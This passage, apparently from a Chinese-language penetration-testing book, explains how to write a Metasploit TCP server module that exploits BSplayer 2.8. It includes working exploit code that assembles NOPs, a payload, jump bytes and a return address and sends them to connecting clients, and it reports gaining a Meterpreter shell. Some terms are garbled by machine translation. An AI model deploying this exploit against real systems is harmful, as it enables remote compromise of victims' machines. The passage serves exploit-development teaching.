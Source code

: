 ```
       { 
       'BadChars' => "\x00\x0a\x20\x0d" 
       }, 
      'DisclosureDate' => "May 19 2016", 
      'DefaultTarget'  => 0)) 
  end 
```

在使用了这么多漏洞之后，我们可以看到前面的代码部分没有什么不同，除了来自`/lib/msf/core/exploit/tcp_server.rb`的 TCP 服务器库文件。TCP 服务器库提供了处理传入请求和以各种方式处理它们所需的所有必要方法。包含此库可启用其他选项，如`SRVHOST`、`SRVPORT`和`SSL`。让我们看一下代码的其余部分：

```
def on_client_connect(client) 
return if ((p = regenerate_payload(client)) == nil) 
    print_status("Client Connected") 
    sploit = make_nops(target['Offset']) 
    sploit << payload.encoded 
    sploit << "\xcc" * (6787-2048 - payload.encoded.length)  
    sploit << "\xe9\x85\xe9\xff\xff"  
    sploit << "\xeb\xf9\x90\x90" 
    sploit << [target.ret].pack('V') 
    client.put(sploit) 
    client.get_once 
    client.put(sploit) 
    handler(client) 
    service.close_client(client) 
  end 
end 
```

我们可以看到，我们没有利用这种类型的利用方法。然而，我们有`on_client_connect`、`on_client_data`和`on_client_disconnect`方法。最有用、最简单的方法是`on_client_connect`方法。一旦客户端连接到所选`SRVHOST`和`SRVPORT`上的漏洞攻击服务器，就会触发此方法。

我们可以看到，我们使用`make_nops`以 Metasploit 方式创建了 NOP，并使用`payload.encoded`嵌入了有效负载，从而消除了硬编码有效负载的使用。我们使用与原始开发中使用的方法类似的方法组装了`sploit`变量的其余部分。但是，为了在请求时将恶意数据发送回目标，我们使用了`client.put()`，它将使用我们选择的数据向目标做出响应。由于利用漏洞需要向目标发送两次数据，因此我们使用`client.get_once`确保数据传输两次，而不是合并到单个单元中。将数据发送两次到目标，我们启动处理程序，该处理程序会主动查找成功利用漏洞的传入会话。最后，我们通过发出`service.client_close`调用来关闭与目标的连接。

我们可以看到我们在代码中使用了`client`对象。这是因为来自特定目标的传入请求将被视为一个单独的对象，它还将允许多个目标同时连接。

让我们看看我们的 Metasploit 模块的运行情况：

![](assets/724811da-24b6-42b5-a4e6-8abdb9895c45.png)

让我们从 BSplayer 2.8 连接到端口`8080`上的漏洞攻击服务器，如下所示：

![](assets/273b6582-a87e-408e-8bae-3b0031ac184d.png)

一旦尝试连接到我们的利用漏洞处理程序，MeterMeter 有效负载就会传送到目标，我们将看到以下屏幕：

![](assets/58eb7755-4617-4b6b-a4ab-79a918e32311.png)

头奖现在可以访问流量计外壳。我们使用 TCP 服务器库成功地在 Metasploit 中编写了一个利用漏洞的服务器模块。在 Metasploit 中，我们还可以使用 HTTP 服务器库建立 HTTP 服务器功能。

